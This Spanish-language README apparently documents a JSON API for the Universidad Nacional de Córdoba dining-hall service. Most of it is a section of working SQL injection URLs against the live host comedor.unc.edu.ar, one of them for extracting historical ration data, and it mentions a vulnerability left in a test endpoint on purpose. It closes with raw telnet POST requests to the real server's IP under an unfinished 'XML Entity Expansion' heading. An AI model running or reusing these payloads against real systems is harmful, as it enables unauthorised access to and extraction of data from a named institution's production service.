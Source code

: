 Features:
* No más POSTs, todo se hace desde GETs (como debería ser).
* `json=true` en realidad solo hay que definirlo y ya.
* `codigo=BARCODE[,BARCODE]` ahora se puede mandar una lista de tarjetas separadas por coma.
* Todas las respuestas en [JSON](https://es.wikipedia.org/wiki/JSON).

Consulta: http://comedor.unc.edu.ar/gv-ds_test.php?json=true&accion=4&codigo=BARCODE

Medidor: http://comedor.unc.edu.ar/gv-ds_test.php?json=true&accion=1&sede=0475


## Start the cool things

Bueno basta de boludeces, que empiece lo divertido:

### SQL injection

1. `http://comedor.unc.edu.ar/gv-ds.php?accion=1&sede=0475' or '1' = '1`
2. `http://comedor.unc.edu.ar/gv-ds.php?accion=1&sede=0' or sede = '0475`
3. `http://comedor.unc.edu.ar/gv-ds.php?accion=1&sede=0475' and cast(fecha as date) = date '2017-5-9' group by 1 order by 1 -- hola`

> Nota: Usar (3) para obtener el historico de raciones de cualquier fecha.

> Otra nota: Por alguna razón dejé esta vulnerabilidad en `gv-ds_test.php`, 
supongo que fué porque es útil para obtener datos viejos en JSON cuando 
el medidor está en cero.


### XML Entity Expansion

A esto no lo he vuelto a revisar xD, **necesita una mejor explicación**.

```sh
$ telnet 200.16.16.36 80
POST /formulario/php/saveForm.php HTTP/1.1
Host: comedor.unc.edu.ar
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Connection: keep-alive

xml=<root><row id_elems="nombre">yolo</row><row>"Hola y saludos a todos"</row></root>


$ telnet 200.16.16.36 80
POST /formulario/php/saveForm.php HTTP/1.1
Host: comedor.unc.edu.ar
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Connection: keep-alive

xml=<root><row>"Hola y saludos a todos"


$ telnet 200.16.16.36 80
POST /formulario/php/checkForm.php HTTP/1.1
Host: comedor.unc.edu.ar
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 9
Connection: keep-alive

cuip=yolo


$ telnet 200.16.16.36 80
POST /formulario/php/checkForm.php HTTP/1.1
```
